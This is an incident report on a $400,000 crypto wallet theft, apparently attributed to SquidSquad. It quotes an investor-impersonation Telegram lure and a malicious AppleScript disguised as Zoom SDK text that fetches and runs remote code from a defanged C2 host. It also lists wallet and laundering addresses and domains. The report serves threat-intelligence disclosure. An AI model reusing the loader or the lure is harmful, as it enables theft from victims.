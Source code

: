 # Theft from Individual C4

Date: June 28th, 2024

Time:: 06:19

Amount Stolen: $400,000

Tags: 🔑 SquidSquad

---

## Details

Contacted by Telegram account impersonating VC.

jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



## On-chain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Primary Theft 

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Laundry July 18, 2023
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Deposit Address

- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Deposit Address

- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Deposit Address

- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Deposit Address

- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Deposit Address


## Timeline

- 2024-Jun-28 06:19 - Theft

- 2024-Jul-18 00:38 - Consolidation

- 2024-Jul-23 01:16 - Laundry 

- 2024-Aug-26 00:50 - Laundry 


## Connections

- C7 Theft


## URLs

- https://twitter.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon
```


## Malicious Script

```
############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc
```



## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_SQSQ_7xv_1.jpg)

![](../images/2024-07-01_SQSQ_7xv_2.jpg)

![](../images/2024-07-01_SQSQ_7xv_3.jpg)



